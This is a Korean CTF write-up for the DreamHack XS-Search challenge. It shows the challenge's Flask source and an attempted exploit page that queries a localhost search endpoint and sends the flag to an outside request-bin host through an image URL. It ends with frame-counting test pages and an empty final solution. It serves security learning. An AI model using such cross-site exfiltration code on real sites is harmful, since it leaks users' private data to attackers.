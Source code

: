 ## XS - Search
<hr style="border-top: 1px solid;"><br>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
from selenium.common.exceptions import TimeoutException
from urllib.parse import urlparse
from selenium import webdriver
from hashlib import md5
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

notes = {
    (FLAG, True), 
    ("Hello World", False), 
    ("DreamHack", False), 
    ("carpe diem, quam minimum credula postero", False)
}

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get(url)
    except TimeoutException as e:
        driver.quit()
        return True
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

@app.route("/")
def index():
    return render_template('index.html')


@app.route('/search')
def search():
    query = request.args.get('query', None)
    if query == None:
        return render_template("search.html", query=None, result=None)
    for note, private in notes:
        if private == True and request.remote_addr != "127.0.0.1" and request.headers.get("HOST") != "127.0.0.1:8000":
            continue
        if query != "" and query in note:
            return render_template("search.html", query=query, result=note)
    return render_template("search.html", query=query, result=None)


@app.route("/submit", methods=["GET", "POST"])
def submit():
    if request.method == "GET":
        return render_template("submit.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        if not urlparse(url).scheme.startswith("http"):
            return '<script>alert("wrong url");history.go(-1);</script>'
        if not read_url(url):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


app.run(host="0.0.0.0", port=8000)
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width">
  <title>Exploit</title>
  <link href="style.css" rel="stylesheet" type="text/css" />
</head>

<body>
	<script>
		let img = document.createElement('img');
		let reqbin='https://gwqarqn.request.dreamhack.games';
		function req(url) {
    		let script = document.createElement('script');
    		script.src = url;
    		script.onload = () => {
				let getval = document.querySelector('iframe');
				let Flag = getval.getAttribute('srcdoc');
    			img.setAttribute('src', reqbin+"?flag="+Flag);
			}
			script.onerror = () => img.setAttribute('src', reqbin+'/onerror');
			
			document.head.appendChild(script);
			document.body.appendChild(img);
		}
		req('http://localhost:8000/search?query=D')
	</script>
</body>
	
</html>
```

위와 같이 코드를 짜서 보냈다...

하지만 돌아오는건 스크립트가 로드가 되지 않아 에러가 발생했다는 요청만 올 뿐이었다.

<br>

Link
: <a href="https://security.stackexchange.com/questions/182572/why-cant-bypass-sop-using-src-attribut-in-script-tag" target="_blank">security.stackexchange.com/questions/182572/why-cant-bypass-sop-using-src-attribut-in-script-tag</a>

<br>

스크립트로 로드할 땐, sop 정책때문이 아니라 해당 목표 사이트의 html 코드를 얻을 방법이 없기 때문이라고 한다.
: ```<``` 로 시작하면 script src로 읽을 수가 없다!

<br>

iframe 의 윈도우객체에 접근하기 (contentWindow)
: <a href="https://doolyit.tistory.com/37" target="_blank">doolyit.tistory.com/37</a>

<br>

강의를 보니 frame의 개수로 확인하여 공격을 진행해서 직접 테스트를 해보았고 확인할 수 있었다.

```target.html```에 iframe이 있으면 1, 없으면 0이 console에 출력된다. 

<br>

```html
<!-- target.html -->
<!DOCTYPE html>
<html>
	<head>
		<title>Target</title>
		<meta charset="utf-8">
		<body>
      <iframe srcdoc="<pre>test</pre>"></iframe>
		</body>
	</head>
</html>
```

<br>

```html
<!-- attacker.html -->
<!DOCTYPE html>
<html>
	<head>
		<title>Attacker</title>
		<meta charset="utf-8">
		<body>
			<iframe id="iframe"></iframe>
			<script>
				const iframe = document.getElementById("iframe");
				iframe.src = "https://{repl server}/target.html";
				iframe.onload = () => {
    				console.log(iframe.contentWindow.frames.length);
				};
			</script>
		</body>
	</head>
</html>
```

<br>

내가 궁금했던건 ```그러면 타켓 사이트에 있는 frame의 srcdoc 값을 가져오면 되지 않을까?``` 이였는데, 테스트를 해보니 ```Uncaught DOMException: Blocked a frame with origin <origin> from accessing a cross-origin frame.``` 라는 에러가 떴다.

물론 같은 origin에서는 가져올 수 있었다. 

예를 들면, ```https://test.com```에서 ```https://test.com/test.html```에 있는 ```<iframe srcdoc="<pre>test</pre>"></iframe>``` 코드를 가져오는 건 가능했다.

하지만 실제 공격을 위해서는 내 서버에서 ```http://localhost:8000/search?query=DH```로 공격을 하는 거기 때문에 막힐 것이다.. 

그래서 강의 내용처럼 frame의 개수로 판단하여 공격해야 하는 것 같다..

<br>

```html

```

<br>

<br><br>
<hr style="border: 2px solid;">
<br><br>
